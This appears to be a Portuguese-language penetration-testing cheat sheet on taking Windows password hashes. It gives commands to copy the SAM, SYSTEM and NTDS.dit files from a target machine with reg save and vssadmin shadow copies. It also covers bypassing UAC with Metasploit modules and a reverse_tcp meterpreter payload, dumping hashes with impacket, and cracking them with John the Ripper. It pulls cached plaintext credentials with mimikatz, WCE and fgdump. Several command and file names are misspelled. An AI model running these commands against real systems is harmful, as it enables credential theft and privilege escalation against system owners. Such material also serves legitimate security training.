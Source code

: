 # Windows Hashes

## Padrão de Hash do Windows

``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``

LM Hash vazio: aad3b435b51404eeaad3b435b51404ee

## Obtendo hashes de senhas do Windows

Nos sistemas Windows são utilizados até 3 arquivos para armazenamento e manipulação dos usuários e senhas dependendo da versão do sistema operacional. Os arquivos são:

**SAM - Security Account Manager** *(Windows XP/Vista/7/8/10)*
- Armazena as contas de usuários
- %SystemRoot/system32/config/sam

**NTDS.DIT** *(Windows Server)*
- Armazena os dados do AD incluindo as contas de usuários
- %SystemRoot/ntds/ntds.dit

**SYSTEM** *(Windows Server/XP/Vista/7/8/10)*
- Arquivo necessário para decriptar o SAM/NTDS.DIT
- %SystemRoot/system32/config/system

Todos esses arquivos são bloqueados pelo sistema enquanto o mesmo estiver em execução, abaixo algumas técnicas para burlar essa proteção.

**Windows XP**

Essa técnica funciona apenas em versões antigas do Windows. Verifique se existe o diretório *%SystemRoot%/Windows/repair* onde existe uma cópia do sistema operacional e faça a busca pelos arquivos **sam** e **system**.

A desvantagem de utilizar os arquivos da pasta *repair* é que pode ocorrer do arquivo sam estar desatualizado, não retornando todos os usuários atuais do sistema.

**Windows XP/Vista/7/8/10**

Para baixar os arquivos **sam** e **system** através do registro do Windows, utilize os *comandos abaixo direto no terminal da máquina alvo:

``reg save hklm\sam samOK``

``reg save hklm\system systemOK``

Esse método consegue retornar o arquivo sam com todos os usuários atuais do sistema.

**Necessário permissões para executar comandos como administrador*

**Windows Server/7/8/10**

Em versões mais modernas do Windows assim como em versões do Windows Server, podemos utilizar a ferramenta ``vssadmin`` para criar uma cópia (shadow) do sistema operacional e fazer o download dos arquivos **sam**, **ntds.dit** e **system**.

Verificar os volumes do sistema operacional
``vssadmin list volumes``

Montar uma cópia do volume alvo
``vssadmin create shadow /for=c:``

Copiar os arquivos da cópia para o disco local

``copy \\?\VOLUME_COPIA\windows\ntds\ntds.nit C:\ntds.nit``

``copy \\?\VOLUME_COPIA\windows\system32\config\sam C:\sam``

``copy \\?\VOLUME_COPIA\windows\system32\config\system C:\system``

## Bypass UAC (Executar como Administrador)

**Enviar solicitação ao usuário - Meterpreter**

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/ask** e com o comando ``set SESSION 1`` defina que o módulo será executado na sessão que está em background.

Execute o módulo com o comando ``run``, dessa forma será enviada uma mensagem para a máquina alvo solicitando a execução como administrador.

**Nova sessão como administrador - Meterpreter**

Nessa técnica vamos utilizar dois módulos, o primeiro é um exploit que irá realizar o bypass no UAC e o segundo é o payload que será executado para nos retornar outra shell, mas dessa vez como administrador.

Inicie uma sessão com a máquina alvo através do metasploit e deixe em segundo plano com o comando ``background``. Para visualizar as sessões ativas utilize ``sessions``.

Selecione o módulo **exploit/windows/local/bypassuac_fodhelper**. Faça a configuração do target de acordo com o alvo e selecione a sessão que está em background com o comando ``set SESSION 1``.

Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`` e faça a configuração padrão.

Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.

## Visualizar Hashes  
Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:

**Windows 2k/NT/XP/Vista**  
``samdump2 SYSTEM SAM``

**Windows 2k/NT/XP/Vista/7/8/10/Server**  
``impacket-secretdump -sam SAM -system SYSTEM LOCAL``

**Windows Server**  
``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``

## Quebra de Hashes  
Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.

**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**  
``jhon --format=nt hash``

**Quebra de Hash com LM:**  
``jhon --format=lm hash``

## Obtendo hashes de senhas do Windows em cache

Para recuperar hashes de senhas que estão armazenadas no cache ou na memória do Windows, utilize aguns dos utilitários abaixo:

**fgdump**  
*Download: /usr/share/windows-binaries/fgdumb/fgdumb.exe (Kali)*  
Executar na máquina alvo, irá retornar dois arquivos com os hashes das senhas locais e do AD.

**WCE Universal** 
*Download: /usr/share/windows-resources/wce/wce-universal.exe (Kali)*  
O utilitário wce-universal.exe possui diversas formas de ser executado, duas delas são a mais simples que é sem argumentos, `wce-universal.exe`, onde irá retornar os hashes armazenados no cache e a outra forma é com o argumento -w  `wce-universal.exe -w` que retorna a senha em texto claro.

**Meterpreter**  
Com a sessão iniciada no meterpreter, carregue o módulo mimikatz com `load mimikatz` e utilize uma das variações abaixo:  
  
- `wdigest`
- `mimikatz_command -f sekurlsa::wdigest -a full`
- `mimikatz_command -f sekurlsa::searchPasswords`
- `mimikatz_command -f sekurlsa::logonPasswords`


